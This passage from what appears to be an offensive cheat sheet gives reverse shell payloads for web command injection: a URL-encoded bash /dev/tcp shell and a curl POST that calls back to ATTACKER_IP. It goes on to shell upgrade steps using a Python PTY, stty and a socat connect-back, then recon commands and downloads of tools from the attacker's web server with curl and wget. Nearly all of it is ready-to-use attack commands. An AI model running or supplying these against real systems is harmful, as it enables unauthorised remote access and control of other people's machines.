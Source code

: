 ### 4) Trigger via HTTP command injection/web RCE (examples)
URL-encoded bash reverse shell in a query parameter:
```text
http://target/vuln.php?cmd=bash+-c+'bash+-i+%3E%26+/dev/tcp/ATTACKER_IP/LPORT+0%3E%261'
```

Curl POST with command parameter:
```bash
curl -X POST http://target/vuln -d "cmd=bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/LPORT 0>&1'"
```

### 5) Shell stabilization/upgrade (Linux)
Quick PTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Full TTY upgrade steps (from a basic nc shell):
1) Background the shell: press Ctrl+Z
2) On attacker terminal:
```bash
stty raw -echo; fg
reset
export TERM=xterm
stty rows 50 cols 120
```

Best quality via socat (if you can run it on target):
- Attacker (listener):
```bash
socat -d -d TCP-LISTEN:LPORT,reuseaddr,fork FILE:`tty`,raw,echo=0
```
- Target (connect back):
```bash
socat exec:"bash -li",pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:LPORT
```

### 6) Quick verification and hygiene
Inside the shell:
```bash
whoami; id; hostname; uname -a; ip a || ifconfig
pwd; ls -la
```

Network debugging (attacker):
```bash
sudo tcpdump -ni any tcp port LPORT
```

Simple web server for file transfer (attacker):
```bash
python3 -m http.server 8000
```
Linux target download:
```bash
curl -O http://ATTACKER_IP:8000/socat
wget http://ATTACKER_IP:8000/socat
```
